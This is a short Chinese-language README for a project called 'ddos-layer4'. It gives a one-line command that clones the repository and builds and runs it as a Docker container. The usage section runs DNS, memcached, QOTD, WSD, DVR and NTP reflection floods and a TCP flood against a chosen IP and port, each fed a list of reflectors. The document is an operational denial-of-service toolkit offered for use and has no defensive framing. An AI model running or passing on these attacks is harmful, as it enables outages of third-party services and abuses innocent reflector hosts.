 ### 安装 （docker）

	apt update -y && apt install docker.io -y && apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest && rm -rf ~/ddos-layer4


### 进入容器 （docker）

	docker exec -it ddos-layer4 /bin/bash

### 使用（docker）
	docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./tcp ip port 1 -1 60 &

